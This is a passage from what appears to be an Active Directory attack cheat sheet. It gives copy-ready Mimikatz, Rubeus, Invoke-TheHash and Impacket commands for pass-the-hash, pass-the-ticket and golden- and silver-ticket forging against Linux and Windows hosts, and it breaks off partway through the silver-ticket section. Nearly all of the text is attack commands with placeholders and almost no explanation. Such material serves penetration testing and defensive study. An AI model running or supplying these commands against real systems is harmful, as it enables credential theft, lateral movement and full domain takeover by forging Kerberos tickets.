 #### **Windows:**
```powershell
# Mimikatz
sekurlsa::pth /user:username /domain:domain.com /ntlm:NTLM_HASH

# Invoke-TheHash
Invoke-SMBExec -Target TARGET_IP -Username username -Hash NTLM_HASH -Command "whoami"
```

### **2. Pass-the-Ticket**

#### **Linux:**
```bash
# Impacket
ticketer.py -nthash KRBTGT_HASH -domain-sid DOMAIN_SID -domain domain.com username
export KRB5CCNAME=username.ccache
psexec.py domain.com/username@TARGET_IP -k -no-pass
```

#### **Windows:**
```powershell
# Mimikatz
kerberos::ptt ticket.kirbi

# Rubeus
.\Rubeus.exe ptt /ticket:ticket.kirbi
```

---

## 👑 **Privilege Escalation**

### **1. Golden Ticket**

#### **Linux:**
```bash
# Impacket
ticketer.py -nthash KRBTGT_HASH -domain-sid DOMAIN_SID -domain domain.com Administrator
export KRB5CCNAME=Administrator.ccache
psexec.py domain.com/Administrator@DC_IP -k -no-pass
```

#### **Windows:**
```powershell
# Mimikatz
kerberos::golden /user:Administrator /domain:domain.com /sid:DOMAIN_SID /krbtgt:KRBTGT_HASH /ptt
```

### **2. Silver Ticket**

#### **Linux:**
```bash
# Impacket
ticketer.py -nthash SERVICE_HASH -domain-sid DOMAIN_SID -domain domain.com -spn SERVICE/TARGET Administrator
export KRB5CCNAME=Administrator.ccache
```
